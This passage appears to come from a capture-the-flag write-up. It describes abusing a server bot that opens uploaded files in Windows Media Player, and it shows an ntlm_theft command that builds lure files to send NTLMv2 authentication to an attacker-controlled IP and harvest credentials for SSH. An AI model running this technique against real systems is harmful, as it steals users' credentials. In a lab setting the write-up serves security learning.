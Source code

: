 After keep exploring the site, I can see that I can upload any file that compatible with Windows Media Player to let the team analyze it so there is a bot on the server that will run probably any file we upload with Windows Media Player.

![90bfece346bd7ccf267f1b1823bf1c47.png](/resources/90bfece346bd7ccf267f1b1823bf1c47.png)

## Initial Access with ntlm_theft for user credential to SSH access
Since I know that there is a bot on the server that will open a file with Windows Media Player than I will use [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) to create files for NTLMv2 callback/NTLMSSP authentication.
```
python ntlm_theft.py -g all -s 10.10.14.24 -f vdo
```
![f540fc4b90112920cd3da1499e7fb38a.png](/resources/f540fc4b90112920cd3da1499e7fb38a.png)

